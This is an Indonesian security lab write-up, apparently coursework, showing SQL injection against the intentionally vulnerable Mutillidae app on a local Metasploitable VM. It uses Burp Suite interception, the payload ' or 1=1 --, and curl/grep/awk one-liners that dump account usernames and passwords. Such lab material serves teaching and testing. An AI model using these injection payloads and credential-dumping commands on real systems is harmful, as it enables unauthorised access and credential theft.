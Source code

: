 # Lesson 5 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Multillidae
- Buka browser kemudian akses Multillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
	- 

## Configure Firefox Proxy Settings
1. View Preferences
- Edit --> Preferences
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn on intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off "intercept is off"
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: Obtain Userlist (Method #1)
1. Obtain Userlist Without Password
   - Pada kolom Textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik View Account
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/.png "Home page")
2. View Results
	- Halaman selanjutnya akan memuat kumpulan data table account yang berupa username, password dan signature
	- Perhatikan string yang ada pada url yang di hightlight '+or+1%3D1--+
2. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
   - Perbedaan string tersebut dengan string yang sebelumnya adalah %27 setelah single quote(')
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/3/result.png "Home page")
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File" 
5. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies2.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/4/save_burp.png "Home page")

## Simulate CURL SQL Injection: (Method #2)
1. Use Curl to Display Usernames and Passwords
 - Buka terminal, jalankan perintah berikut : 
 ```
 curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```

## Perl Parser
 - Buka terminal, jalankan perintah berikut :
 ```
	cd /root
	curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt
	cat lesson7.txt
 ```